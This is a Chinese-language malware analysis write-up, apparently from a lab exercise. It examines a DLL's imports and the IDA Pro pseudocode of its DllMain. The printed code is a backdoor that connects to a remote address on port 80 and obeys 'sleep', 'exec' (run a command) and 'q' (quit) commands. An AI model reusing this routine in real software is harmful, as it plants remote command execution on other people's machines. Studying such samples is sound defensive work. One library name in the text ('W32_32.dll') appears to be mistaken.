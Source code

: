 ![03.dll.import.png](../03.dll.import.png)

发现这个动态链接库导入了 `CreateProcessA`，`CreateMutexA`，`OpenMutexA` 等线程相关函数，在左侧还发现它导入了 `W32_32.dll` 这个与网络请求相关的动态链接库。

在 `IdaPro` 中，这个动态链接库有一个名为 `DllMain` 的函数，我们进一步分析这个函数的逻辑。查看其伪代码，在创建局部变量、加锁（名为 `SADFHUHF`）、条件判断等操作之后，进入了以下的主要代码流程：

```c
v3 = socket(2, 1, 6);
if ( v3 != -1 )
{
    name.sa_family = 2;
    *(_DWORD *)&name.sa_data[2] = inet_addr(cp);
    *(_WORD *)&name.sa_data[0] = htons(0x50u);
    if ( connect(v3, &name, 16) != -1 )
    {
        while ( send(v3, ::buf, strlen(::buf), 0) != -1 && shutdown(v3, 1) != -1 )
        {
            if ( recv(v3, &buf, 4096, 0) > 0 )
            {
                if ( !strncmp(Str1, &buf, 5u) )
                {
                    Sleep(0x60000u);
                }
                else if ( !strncmp(aExec, &buf, 4u) )
                {
                    memset(&StartupInfo, 0, sizeof(StartupInfo));
                    StartupInfo.cb = 68;
                    CreateProcessA(0, &CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
                }
                else
                {
                    if ( buf == 113 )
                    {
                        CloseHandle(hObject);
                        break;
                    }
                    Sleep(0x60000u);
                }
            }
        }
    }
}
closesocket(v3);
```

分析其逻辑，应用程序创建了一个套接字，主动连接到了 `cp = 127.26.152.13` 的 `0x50 = 80` 端口，并且接受三种字符串的传入内容：

1. `Str1 = sleep`，应用程序会睡眠 `0x60000 ms = 393216 ms = 6.5 min`；
2. `aExec = exec`，应用程序会创建一个供远程执行的 `shell`，执行任意代码；
3. `chr(113) = q`，应用程序会结束。
